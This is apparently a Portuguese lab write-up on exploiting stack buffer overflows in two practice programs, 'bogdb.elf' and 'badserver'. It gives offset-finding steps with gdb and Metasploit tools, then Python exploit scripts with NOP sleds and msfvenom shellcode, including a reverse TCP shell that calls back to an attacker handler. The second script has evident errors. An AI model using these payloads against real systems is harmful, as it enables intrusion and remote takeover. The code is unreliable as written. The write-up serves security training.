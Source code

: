 # PARTE 1

### Overflow no bogdb.elf

- Criar uma string usando ````msf-patten_create -l 50````
- Usar essa string de entrada para o buffer
- Ao dar **Segmentation Fault**, sabemos que talvez escrevemos um endereço inexistente no escopo do programa no endereço de retorno da função e, portanto, RIP estará apontando para um endereço inválido, o que causa o erro.
- Executar com gdb o elf a fim de identificar nosso offset.
- Ao dar segfault, usamos o comando _info registers_ no gdb para verificar que o rbp foi preenchido com algo. Podemos, então, printar o valor do rsp, pois o valor dele é o endereço onde começam os 6 bytes de retorno que queremos preencher com um apontador para nosso shellcode no futuro. 
- Alimentar para a função ````msf-pattern_offset -q```` o valor de rsp, com isso conseguimos o offset até o retorno. No caso do bogdb.elf esse valor é de 21 bytes.
- Criar um script em python para escrever um payload binário em uma file a fim de fornecer essa file como entrada para o bogdb. Esse payload segue o seguinte formato 
````import struct
buf = b"\x41" * 21
buf += struct.pack("Q", 0x7fffffffdd20)
buf += b"\x90" * 1000
buf += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50"
buf += b"\x54\x5f\x52\x66\x68\x2d\x63\x54\x5e\x52\xe8\x31"
buf += b"\x00\x00\x00\x65\x63\x68\x6f\x20\x27\x68\x65\x61"
buf += b"\x63\x6b\x61\x64\x6f\x20\x6f\x74\x61\x72\x69\x6f"
buf += b"\x20\x6b\x6b\x27\x20\x3e\x20\x48\x41\x43\x4b\x45"
buf += b"\x41\x52\x41\x4d\x5f\x4d\x45\x55\x5f\x50\x43\x2e"
buf += b"\x54\x58\x54\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f"
buf += b"\x05"

fo = open("teste.txt", 'wb+')
fo.write(buf)
fo.close()
````
- Primeiro, os 21 bytes são preenchidos com qualquer coisa, esse é nosso padding. Depois, colocamos um endereço de memória qualquer no retorno, vamos descobrir futuramente qual é o melhor lugar para mandar nosso código. Depois vem nossos NOPs: são importantíssimos porque aumentam MUITO nossa chance de acerto ao colocar um valor no ret, porque quando o fluxo de execução é desviado para um NOP o processo simplesmente continua executando até achar uma operação, nesse caso, ele continuará até encontrar nosso shellcode. Por fim, o shellcode em si, gerado pelo msfvenom.
- A linha de comando do msfvenom é a seguinte: ````msfvenom -p linux/x64/exec -f python CMD='<comando>'````, o que gera um shellcode, como no exemplo acima. 
- Executamos esse payload como entrada do bogdb.elf a fim de provocar um segfault. Depois, analisamos o core deixado pelo segfault e descobrimos, no gdb, printando a stack, qual endereço de retorno printar para ter mais chance de cair no meio dos nossos NOPs, fazemos isso usando x/300x $rsp, isso printará 300 posições da stack.
- Ao descobrir um endereço bom, basta colocar no payload.

# PARTE 2
### Overflow no badserver
- Os passos para descobrir o tamanho do buffer e o payload em si são iguais aos anteriores.
- O que muda aqui é que temos um servidor, o shellcode que vamos executar é outro: ````msfvenom -p linux/x64/shell/reverse_tcp LHOST=<ip> LPORT=<porta> -f python -b "\x00"````. Esse shellcode abrirá uma porta (definida em lport) para que o ip definido em lhost se conecte através do terminal multi/handler do metasploit. 
- Mandar o seguinte payload: 
````import struct
buf += b"\x48\x31\xc9\x48\x81\xe9\xef\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\xf7\x15\x65\x7a\x25"
buf += b"\x85\x6b\xc1\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\xc6\xea\x0f\x73\x7d\x1c\xdd\xd1\xbf"
buf += b"\x9c\xb3\x37\x14\x4c\x01\xe3\xb6\x4f\x0f\x7d\x7f"
buf += b"\x8a\x6e\x89\x72\xd5\x1d\x2b\x4f\x8f\x2a\x98\xa7"
buf += b"\x7f\x4c\x22\xbc\xef\x69\x9e\x9d\x14\x3b\x75\x20"
buf += b"\xcd\xee\x01\x8f\x2e\x2d\xed\x6d\x3c\x69\xc1\xe4"
buf += b"\xaf\x6f\x84\xf8\xc8\x3a\x89\x7e\xf3\x0f\x6a\x7f"
buf += b"\xef\x41\x99\xf8\x10\x3c\x32\xa0\x45\x12\xe4\xbe"
buf += b"\xea\xac\x0e\x3d\xd2\x01\xe2\xaf\x7f\x65\x10\x20"
buf += b"\xcd\xe2\x26\xbf\x24\x93\x75\x20\xdc\x32\x9e\xbf"
buf += b"\x90\xa5\x03\xe2\xef\x57\x99\x9d\x14\x3a\x75\x20"
buf += b"\xdb\x01\xe7\xad\x1a\x60\x32\xa0\x45\x13\x2c\x08"
buf += b"\xf3\x65\x7a\x25\x85\x6b\xc1"

pad = "\x41" * 40
EIP = struct.pack("I", 0x7ffffff780)
NOP = "\x90" * 100
shellcode = buf
print pad + EIP + NOP + shellcode
````

para abrir o reverse_tcp na porta especificada.

- Por fim, rodar msfconsole, dentro dele rodar use exploit/multi/handler, dentro desse handler precisamos setar o payload que usamos, a porta e o ip e finalmente executar com "run". 
